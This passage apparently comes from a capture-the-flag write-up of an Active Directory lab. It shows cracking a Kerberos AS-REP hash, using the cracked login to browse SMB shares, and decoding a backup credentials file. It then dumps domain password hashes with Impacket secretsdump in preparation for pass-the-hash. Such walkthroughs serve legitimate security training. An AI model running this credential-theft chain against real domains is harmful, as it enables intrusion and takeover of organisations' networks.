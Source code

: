 ```
bvr0n@kali:~/CTF/THM/AttacktiveDirect$ sudo john hash-svc-admin --wordlist=/home/bvr0n/Documents/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
management****   ($krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL)
```

## SMB Recon :

Since we have user credentials we can attempt to log into SMB and explore any shares from the domain controller.

```
bvr0n@kali:~/Kerbute$ smbclient -U svc-admin -L 10.10.193.34 
Enter WORKGROUP\svc-admin's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```
Enumerating the shares, one had some credentials inside :

```
bvr0n@kali:~/Kerbute$ smbclient -U svc-admin //10.10.193.34/backup
Enter WORKGROUP\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020
```
The file content is `base64` encoded, we can decoded simply like this :

```
bvr0n@kali:~/CTF/THM/AttacktiveDirect$ strings backup_credentials.txt | base64 -d
backup@spookysec.local:******2517860
```
Using the backup account we can use another tool from Impacket this time called `secretsdump.py`, we will be able to get all the password hashes that this user account has access to.

```
bvr0n@kali:~/CTF/THM/AttacktiveDirect$ python3 /opt/impacket/examples/secretsdump.py -just-dc backup@spookysec.local
Impacket v0.9.22.dev1+20201105.154342.d7ed8dba - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:********************7260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
```
Now we are in possession of the Administrator password hash. The next step will be performing a `Pass the Hash Attack`. 
